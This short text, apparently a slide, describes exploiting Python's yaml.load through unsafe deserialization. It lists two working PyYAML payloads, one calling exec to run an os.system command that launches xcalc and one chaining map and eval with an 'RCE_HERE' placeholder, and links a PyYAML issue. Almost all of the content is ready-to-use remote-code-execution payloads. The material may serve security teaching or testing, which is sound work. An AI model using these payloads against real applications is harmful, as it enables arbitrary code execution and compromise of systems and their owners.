

# CREATING EXPLOIT :- yaml.load
Common payloads used :
# using python exec
```!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"```
# using python eval
```!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - [ "RCE_HERE" ] ```
More on payload https://github.com/yaml/pyyaml/issues/420